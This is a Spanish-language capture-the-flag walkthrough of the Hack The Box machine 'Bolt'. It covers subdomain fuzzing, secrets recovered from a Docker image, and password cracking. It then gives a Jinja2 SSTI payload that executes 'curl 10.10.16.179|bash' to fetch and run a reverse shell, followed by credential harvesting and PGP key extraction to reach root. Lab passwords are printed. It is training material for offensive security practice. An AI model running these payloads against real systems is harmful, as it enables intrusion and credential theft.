# Bolt



- Vemos un vhost *bolt.htb* y un subdominio *passbolt.bolt.htb* en el puerto ssl expuesto
Añadimos los dominios al /etc/hosts

- En principio buscaremos más subdominios
```bash
wfuzz -c -t 200 --hc=404 --hh=30341 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "host: FUZZ.bolt.htb" http://bolt.htb
```

Probamos con gobuster
```bash
gobuster vhost -u http://bolt.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain -t 200 -r
```

**mail.bolt.htb**
**demo.bolt.htb** -> Nos da un error pero existe

- 80 -> https://passbolt.bolt.htb -> Vemos una web https donde hay un portal de login, donde solo nos aceptan el mail con el que nos registramos si no tenemos un link de invitación en principio



```bash
whatweb https://passbolt.bolt.htb
```

Django
nginx 1.18
Haremos un fuzzeo de este subdominio en busca de recursos
```bash
gobuster dir -k -u https://passbolt.bolt.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 200 -x php,html,js,txt
```



- /img -> 403 forbidden

- 80-> Vemos una web http
Fuzzeamos directorios
```bash
gobuster dir -u http://bolt.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 200 -x php,html,js,txt
```



- /register -> no nos deja registrar un nuevo correo, nos devuelve un internal server error
- /profile -> internal server error también -> burp -> nada a priori
- /login -> vemos que podemos logearnos y el mensaje variará dependiendo del usuario, por ejemplo para el usuario admin nos devuelve que la pass es incorrecta por lo que existe probablemente



- /download -> hay una imagen de docker parece y contiene mucha información dentro



Levantamos el contenedor
```bash
sudo docker load -i image.tar
docker images
docker run -it flask-dashboard-adminlte_appseed-app:latest
```

Ahora en nuestro http://localhost:5005 tenemos un AdminLTE Flask
Vemos un portal de control





Podemos lanzarnos una bash dentro del contenedor con
```bash
sudo docker run --rm -it --entrypoint /bin/sh flask-dashboard-adminlte_appseed-app:latest
```

Nada más obtener la shell somos root, y vemos un **config.py** donde vemos credenciales sobre *SECRET_KEY* y la base de datos *postgres*, además se ve que el dominio es bolt.htb por lo que podemos pensar que es configuración heredada de la máquina víctima



appseed:pass:5432
S#perS3crEt_007

En el /.env vemos más info



S3cr3t_K#Key

Vemos que las contraseñas se encriptan en MD5



- En la pestaña de /login vemos *jinja* -> Puede ser vulnerable a SSTI pero no tiene pinta ya que en la respuesta del login incorrecto no nos muestra el string del usuario que le pasamos

- Vamos a pasar a intentar enumerar información sin levantar el Docker, sino desde el propio directorio descargado descomprimido
```bash
tree -fas
```

-> Vemos que hay muchos layer.tar
-fas: para que muestre la ruta completa
```bash
tree -fas | grep layer.tar
```



Aparecen varias columnas, nos quedaremos con la última que es el directorio del archivo
```bash
tree -fas | grep layer.tar | awk 'NF{print $NF}'
```



Ahora para archivo queremos listar el contenido que tiene dentro para ir examinándolo
```bash
for file in $(tree -fas | grep layer.tar | awk 'NF{print $NF}'); do echo "\n[+] Listando el contenido del archivo $file:\n"; done
```



Una vez tenemos distribuido la variable *$file* haremos un
```bash
7z l
```

para listar el contenido, y con vi
```bash
less -S
```

buscaremos los matches *[+]* que son cada archivo
```bash
for file in $(tree -fas | grep layer.tar | awk 'NF{print $NF}'); do echo "\n[+] Listando el contenido del archivo $file:\n"; 7z l $file; done | less -S
```

-S: no partir las líneas largas en la terminal+
Buscamos mathces de [+] con
```bash
/[+]
```

Pulsamos *n* para siguiente match y *shift + n* para anterior



- En *./a4ea7da8de7bfbf327b56b0cb794aed9a8487d31e588b75029f6b527af2976f2/layer.tar* vemos un **db.sqlite3** lo cual podemos abrir con sqlite y enumerar posible info de la db
(*ctrl+z* para salir)

- Nos movemos a la carpeta que contiene ese *layer.tar*
```bash
cd $(dirname ./a4ea7da8de7bfbf327b56b0cb794aed9a8487d31e588b75029f6b527af2976f2/layer.tar)
```

dirname nos da el directorio en el que se encuentra un archivo

- Descomprimimos el *layer.tar* y lo abrimos
```bash
sqlite3 db.sqlite3
```

```
.tables
```

-> User
```
select * from User;
```



admin:$1$sm1RceCh$rSd3PygnS/6jlFDfF2J5q.
Si es $1\$ es *md5crypt*

- Crackeamos la contraseña
```bash
hashcat hash /usr/share/wordlists/rockyou.txt
```

**deadbolt**

- Entramos al /login con **admin:deadbolt**

- Una vez dentro intentaremos buscar SSTI que son típicas de servidores hechos en Python como es este. Además antes hemos comentado que parecía que había un Jinja2 corriendo por detrás, por lo que buscaremos alguna etiqueta o algo que refleje texto y que le podamos pasar el típico payload. Además Flask es tipicamente vulnerable a SSTI
```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

No vemos nada a priori

- Vemos una conversación en el menú principal de *dashboard* en el que hablan un tal alexander y una tal sarah de una imagen de docker y de que necesitan la ayuda de un tercero llamado eddie que se pondrá con ello.
Probamos estos mails en el https donde nos pide una verificación de mail y con el usuario eddie@bolt.htb nos dice que checkeemos nuestro mailbox, por lo que parece un usuario con invitación



- Retrocedemos y vamos a inspeccionar el subdominio que encontramos de *mail.bolt.htb*
Hacemos un escaneo excluyendo los falsos positivos de 200
```bash
wfuzz -c -t 200 --hc=200 --hh=30341 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://mail.bolt.htb/FUZZ/
```



Vemos que todos existen pero en la web nos devuelve un *forbidden*
Consultamos el */installer* y vemos que nos muestra un archivo donde nos da informacion sobre el software de mail -> **rouncube**



- Vemos que tiene muchas posibles vulnerabilidades asociadas
Encontramos un archivo según nos dice la propia web de *RCUBE_CONFIG_DIR/config.inc.php*
- Se me ocurre probar **http://mail.bolt.htb/config/config.inc.php** -> EXISTE pero nos devuelve 403 forbidden

- Buscaremos en el otro dominio **demo.bolt.htb** -> Encontramos que podemos registrarnos pero nos piden un código de invitación que es de lo que se hablaba en la conversación del dashboard entre el usuario admin y sarah.
Probamos con las keys y contraseñas que hemos encontrado pero no vale ninguna

- Buscaremos en el image.tar que nos descargamos por el campo del formulario de invite code
Vemos que el campo se llama **invite_code**



```bash
grep -r invite_code
```



Nos muestra dos, pero tendremos que descomprimirlos para ver el contenido
Entramos a los dos directorios y volvemos a lanzar el grep



Vemos que el invite code parece que se está obteniendo en */app/base/routes.py*

- En el archivo podemos ver que hace una validación con el código hardcodeado



**XNSS-HSJW-3NGU-8XTJ**

- Intentaremos registrar un usuario ahora con este código de invitación



Parece que crea el usuario qarlg correctamente

- Nos redirige el login -> qarlg:qarlg123
Estamos dentro, con ahora mucha más información que antes, ya que parece que esto es la demo en desarrollo


- Ahora si podremos seguir buscando nuestra sospecha de SSTI
Vemos que nada más crear el usuario nos dirige a */admin/profile* donde hay varios campos que tienen bastantes papeletas a ser inyectables a SSTI



- Se me ocurre intentar loggearnos en **mail.bolt.htb** con el nuevo usuario que hemos creado
qarlg:qarlg123
Conseguimos entrar



- Vemos que al hacer algún cambio en el perfil tal como hemos hecho antes, llega una notificación de confirmación para el cambio
Si escribimos hola en el nombre



Queda reflejado en el correo de confirmación, por lo que en este correo podremos ver si acontece el SSTI



- Probamos con el payload *{{7\*8}}*





Vemos que acontece

- Si lo que lanzamos en lugar del
```
{{7*8}}
```

es un payload de RCE ->     *PayloadsAllTheThings/Server Side Template Injection/Python.md*
```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```



ç

- Nos lanzaremos una revshell creando un *index.html* y ejecutando un **curl** desde el RCE
```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('curl 10.10.16.179|bash').read() }}
```



www-data<

¿Cómo acontece el **SSTI**?



## Escalada

```bash
id
```

-> www-data
```bash
find / -perm -4000 2>/dev/null
```

-> /opt/google/chrome/chrome-sandbox
```bash
sudo -l
```

```bash
cat /etc/passwd
```

-> root, eddie, clark
Eddie Johnson
Clark Griswold
```bash
ss -nltp
```



- En */var/www/demo/config.py*



- Vemos una clave de encriptación DES en */var/www/roundcube/config/config.inc.php*
tdqy62YPNdGEeohXtJ2160bX

- En */etc/passbolt/passbolt.php*



passbolt:rT2;jW7<eY8!dX8}pQ8%

-
```bash
mysql -u passbolt -p
```

passboltdb
```sql
select * from users;
```



- No encontramos ninguna info valiosa

- Vemos otra tabla que se llama *secrets* que me llama la atención
```sql
select * from secrets;
```

Vemos un mensaje oculto en PGP


- Nos lo copiamos a un archivo *message.crypted*

- Qué es PGP



- Tiramos de **linpeas.sh**



rT2;jW7<eY8!dX8}pQ8%



- Vemos que existe un passbolt y que tenemos una posible contraseña
Qué es **passbolt**



- Archivos importantes de este gestor de contraseñas



- Probamos a escalar con
```bash
su eddie
```

o
```bash
su clark
```

con las contraseñas que ha reportado linpeass
eddie:rT2;jW7<eY8!dX8}pQ8%
eddie

- Volvemos a ejecutar **linpeas** ahora con los privilegios del usuario *eddie*



- Necesitamos buscar una **key** para descifrar el mensaje que hemos encontrado cifrado en PGP



- Filtrando por la palabra key encontramos algunas posibles candidatas reportadas por linpeas



Vemos un archivo *log* de una sessión de google parece
```bash
/home/eddie/.config/google-chrome/Default/Local Extension Settings/didegimhafipceonhjepacocaffmoppf/000003.log
```

- Hacemos un cat filtrando por key
```bash
cat /home/eddie/.config/google-chrome/Default/Local\ Extension\ Settings/didegimhafipceonhjepacocaffmoppf/000003.log | grep key
```



Se filtra la clave privada del usuario *Eddie Johnson*

- Necesitaremos formatear la clave ya que aparecen *\\\r*, *\\\n* etc
Abrimos
```bash
vim eddie.private.key
```

Formateamos con
```bash
:%s/\\\\r\\\\n/\r/g
```

- *:[rango]s/patrón/reemplazo/opciones*



- Tenemos la clave privada, pero ahora necesitaremos una contraseña
```bash
pgp2john eddie.private.key
```



- Lo metemos en un archivo hash

- Intentamos crackear la contraseña
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```



**merrychristmas**

- Importamos la contraseña con
```bash
gpg --import eddie.private.key
```



- Desciframos el mensaje que encontramos en la tabla *secrets* en mysql
```bash
gpg -d message.crypted
```



Vemos una contraseña
**Z(2rmxsNW(Z?3=p/9s**

Explicación clave privada y contraseña



-
```bash
su root
```

Z(2rmxsNW(Z?3=p/9s
root
